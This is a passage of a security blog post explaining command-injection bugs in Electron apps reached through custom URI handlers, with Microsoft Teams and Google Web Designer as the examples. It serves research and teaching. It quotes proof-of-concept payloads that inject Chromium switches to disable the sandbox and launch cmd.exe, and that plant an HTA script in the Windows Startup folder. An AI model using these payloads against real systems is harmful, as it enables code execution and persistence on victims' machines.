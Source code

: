 [rgod-livejournal]: http://retrogod.altervista.org/
[electron-url]: https://www.electronjs.org/
[cef-url]: https://bitbucket.org/chromiumembedded/cef/src

This ZDI article by Vincent Lee
[Top 5 Day Two: Electron Boogaloo - a Case for Technodiversity][rgod-electon-zdi]
explores these bugs in detail.

[rgod-electon-zdi]: https://www.thezdi.com/blog/2018/12/18/top-5-day-two-electron-boogaloo-a-case-for-technodiversity

The ZDI advisory pages don't contain any details so I am not linking to them.
It's very disappointing. We can only learn about these disclosed and fixed bugs
from the end-of-the-year blog post. That said, it's their bugs and they can do
whatever they want with them. 

### Microsoft Teams Command Injection
In the Microsoft Teams exploit rgod passed a parameter named `gpu-launcher` to
the app.

```html
<iframe src='msteams://?"
  --disable-gpu-sandbox
  --no-sandbox
  --gpu-launcher="cmd.exe /c start calc | pause
'>
```

* [gpu-launcher][gpu-launcher-switch] is a Chromium command-line switch that
  launches a new process. In this case, it's the GPU process for Chromium.
* [disable-gpu-sandbox][disable-gpu-sandbox-switch] disables the GPU process
  sandbox (d'oh) which I assume allows the GPU process to do whatever.
* [no-sandbox][no-sandbox-switch] "disables the sandbox for all process types
  that are normally sandboxed."

[gpu-launcher-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#414
[disable-gpu-sandbox-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#118
[no-sandbox-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#463

The
[Electron framework was passing the Chromium switches directly][electron-protocol-handler-fix]
from the URI to the instances. The beauty of finding a framework exploit is
being able to hit multiple applications with one stone. The
[Ubisoft Uplay Desktop Client][ubi-rce] and the [Exodus wallet][exodus-rce] had
similar issues.

[electron-protocol-handler-fix]: https://www.electronjs.org/blog/protocol-handler-fix
[ubi-rce]: https://thewhiteh4t.github.io/2018/11/16/ubisoft-uplay-rce-exploit.html
[exodus-rce]: https://hackernoon.com/exploiting-electron-rce-in-exodus-wallet-d9e6db13c374

### Google Web Designer Command Injection via The Log File
The Google Web Designer bug is more complex and a neat trick. It took me 30
minutes and a few rabbit holes to figure it out.

{{< blockquote author="Vincent Lee" link="https://www.thezdi.com/blog/2018/12/18/top-5-day-two-electron-boogaloo-a-case-for-technodiversity" >}}
However, we have not seen any public PoC using the exploit techniques
demonstrated by rgod in his other submissions. In the submission for ZDI-18-552
affecting Google Web Designer, he had exploited three other command-line options
to inject a .hta HTML Application file into the log file. The log file is
controlled by the attacker and placed in the startup directory of the victim's
machine
{{< /blockquote >}}


```html
<a href='gwd-template://?"
  --type=">>>>>>>>>>>>>>>>>>>>>>
    <script> var x=new ActiveXObject(\"WScript.Shell\"); x.Exec(\"calc.exe\");</script>"
  --no-sandbox
  --log-file=
    "C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/STARTM~1/Programs/Startup/suntzu.hta"
  --log-severity=verbose /'>
  clickme
</a>
```


[positive]: https://positive.security/blog/url-open-rce
[eric-app-protocols]: https://textslashplain.com/2019/08/29/web-to-app-communication-app-protocols/
[eric-lawrence-twitter]: https://twitter.com/ericlaw
[procmon-link]: https://docs.microsoft.com/en-us/sysinternals/downloads/procmon
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[positive-jar-trick]: https://positive.security/blog/url-open-rce#windows-10-19042
[cyku-twitter]: https://twitter.com/cyku_tw
[cyku-nord-bug]: https://hackerone.com/reports/1001255
[process-start-string]: https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=net-5.0#System_Diagnostics_Process_Start_System_String_
[ea-security]: https://ea.com/security
[zer0pwn-twitter]: https://twitter.com/zer0pwn
[fun-with-uri]: https://zero.lol/2019/05/22/fun-with-uri-handlers
[zdi-qt]: https://www.thezdi.com/blog/2019/4/3/loading-up-a-pair-of-qt-bugs-detailing-cve-2019-1636-and-cve-2019-6739
[origin-xss-rce]: https://zero.lol/2019/05/13/xss-to-rce
[lewis-angular-talk]: https://www.slideshare.net/LewisArdern/so-you-thought-you-were-safe-using-angularjs-think-again
[lewis-twitter]: https://twitter.com/LewisArdern
[playstation-now-rce-h1]: https://hackerone.com/reports/873614
[ninth-dr]: https://en.wikipedia.org/wiki/Ninth_Doctor
[b1ack0wl-twitter]: https://twitter.com/b1ack0wl
[mint-yelp-poc]: https://github.com/b1ack0wl/linux_mint_poc
[chromium-785809]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809
[chromium-785809-22]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809#c22
[chromium-785809-21]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809#c22
[ifs-docs]: https://bash.cyberciti.biz/guide/$IFS
[jonaslyk-twitter]: https://twitter.com/jonasLyk
[jonaslyj-tweet]: https://twitter.com/jonasLyk/status/1372952003719143428
[subtle-raymond]: https://devblogs.microsoft.com/oldnewthing/20060509-30/?p=31263
[james-twitter]: https://github.com/tyranid
[path-conversion]: https://googleprojectzero.blogspot.com/2016/02/the-definitive-guide-on-win32-to-nt.html
[mirc-uri-rce]: https://proofofcalc.com/cve-2019-6453-mIRC/
[jeff-twitter]: https://twitter.com/jeffssh
[teamviewer-unquoted]: https://jeffs.sh/CVEs/CVE-2020-13699.txt
[type-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#507
[chromium-histogram-old-src]: https://chromium.googlesource.com/aosp/platform/external/libchrome/+/refs/heads/stabilize-8530.93.B/base/metrics/histogram_base.cc#136
[chromium-histogram-current-src]: https://chromium.googlesource.com/aosp/platform/external/libchrome/+/refs/heads/master/base/metrics/histogram_base.cc
[luke-calc-hta]: https://github.com/arntsonl/calc_security_poc/blob/master/hta/calc.hta
[directories-special-files]: https://docs.microsoft.com/en-us/windows/win32/fileio/naming-a-file#:~:text=Note%20that%20directory%20names%20are%20stored%20by%20the%20file%20system%20as%20a%20special%20type%20of%20file,
[ms-hta-docs]: https://docs.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)
[expand-env-var]: https://docs.microsoft.com/en-us/dotnet/api/system.environment.expandenvironmentvariables
[flag-descriptions-rc]: https://chromium.googlesource.com/chromium/src/+/master/chrome/browser/flag_descriptions.cc
[browser-subprocess-path-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#32
[spotify-advisory]: https://www.zerodayinitiative.com/advisories/ZDI-18-280/
[amazon-music-advisory]: https://www.zerodayinitiative.com/advisories/ZDI-18-215/
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[understanding-protocols]: https://docs.microsoft.com/en-us/archive/blogs/ieinternals/understanding-protocols
[exploiting-uri]: https://web.archive.org/web/20200525025338/https://www.vdoo.com/blog/exploiting-custom-protocol-handlers-in-windows
[provoking-windows]: https://www.slideshare.net/JeremyBrown37/provoking-windows-dragoncon-2016-253308525
[uri-use-abuse-slides]: https://www.blackhat.com/presentations/bh-europe-08/McFeters-Rios-Carter/Presentation/bh-eu-08-mcfeters-rios-carter.pdf
[uri-use-abuse-wp]: https://www.blackhat.com/presentations/bh-europe-08/McFeters-Rios-Carter/Whitepaper/bh-eu-08-mcfeters-rios-carter-WP.pdf
[codecolorist-twitter]: https://twitter.com/CodeColorist
[shellexecute-codecolorist]: https://blog.chichou.me/2018/01/28/electron-s-bug-shellexecute-to-blame/
[juho-paper]: https://infocondb.org/con/disobey/disobey-2020/appsetasdefaultrceclient-electron-scheme-handlers-and-stealthy-security-patches
[juho-twitter]: https://twitter.com/jupenur